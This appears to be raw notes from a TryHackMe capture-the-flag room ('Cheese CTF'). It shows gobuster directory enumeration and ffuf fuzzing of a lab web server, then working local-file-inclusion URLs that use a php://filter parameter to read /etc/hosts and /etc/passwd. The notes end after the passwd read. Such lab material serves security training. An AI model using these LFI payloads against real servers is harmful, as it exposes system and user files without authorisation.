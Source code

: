 <code>
https://tryhackme.com/r/room/cheesectfv10

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.251.14 -x php,txt,html                                                                                                      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.251.14/images/]
/index.html           (Status: 200) [Size: 1759]
/.php                 (Status: 403) [Size: 277]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
                                                                   

http://10.10.251.14/secret-script.php?file=php://filter/resource=supersecretmessageforadmin

### LFI

┌──(kali㉿kali)-[~]
└─$ ffuf -u http://10.10.251.14/secret-script.php?file=php://filter/resource=FUZZ -c -w ../kali/Documents/www/wordlists/LFI-WordList-Linux.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.251.14/secret-script.php?file=php://filter/resource=FUZZ
 :: Wordlist         : FUZZ: /home/kali/Documents/www/wordlists/LFI-WordList-Linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

/etc/apache2/mods-available/deflate.conf [Status: 200, Size: 395, Words: 23, Lines: 11, Duration: 49ms]
/etc/apache2/mods-available/mime.conf [Status: 200, Size: 7676, Words: 943, Lines: 252, Duration: 49ms]
/etc/apache2/mods-available/autoindex.conf [Status: 200, Size: 3374, Words: 313, Lines: 97, Duration: 49ms]
/etc/bash.bashrc        [Status: 200, Size: 2319, Words: 399, Lines: 72, Duration: 46ms]
/etc/ca-certificates.conf.dpkg-old [Status: 200, Size: 6824, Words: 64, Lines: 168, Duration: 46ms]
/etc/ca-certificates.conf [Status: 200, Size: 7545, Words: 64, Lines: 187, Duration: 46ms]
/etc/crontab            [Status: 200, Size: 1042, Words: 181, Lines: 23, Duration: 45ms]
/etc/crypttab           [Status: 200, Size: 54, Words: 5, Lines: 2, Duration: 45ms]
/etc/debian_version     [Status: 200, Size: 13, Words: 1, Lines: 2, Duration: 45ms]
/etc/debconf.conf       [Status: 200, Size: 2969, Words: 411, Lines: 84, Duration: 46ms]
/etc/default/grub       [Status: 200, Size: 1216, Words: 142, Lines: 34, Duration: 46ms]
/etc/deluser.conf       [Status: 200, Size: 604, Words: 86, Lines: 21, Duration: 46ms]
/etc/dhcp/dhclient.conf [Status: 200, Size: 1735, Words: 168, Lines: 55, Duration: 45ms]
/etc/apache2/mods-available/dir.conf [Status: 200, Size: 157, Words: 15, Lines: 6, Duration: 586ms]
/etc/fstab              [Status: 200, Size: 658, Words: 77, Lines: 13, Duration: 352ms]
/etc/host.conf          [Status: 200, Size: 92, Words: 16, Lines: 4, Duration: 629ms]
/etc/group-             [Status: 200, Size: 822, Words: 1, Lines: 61, Duration: 630ms]
/etc/group              [Status: 200, Size: 817, Words: 1, Lines: 61, Duration: 630ms]
/etc/hosts.allow        [Status: 200, Size: 411, Words: 82, Lines: 11, Duration: 629ms]


  
http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/hosts

http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/passwd

comte:x:1000:1000:comte:/home/comte:/bin/bash


</code>
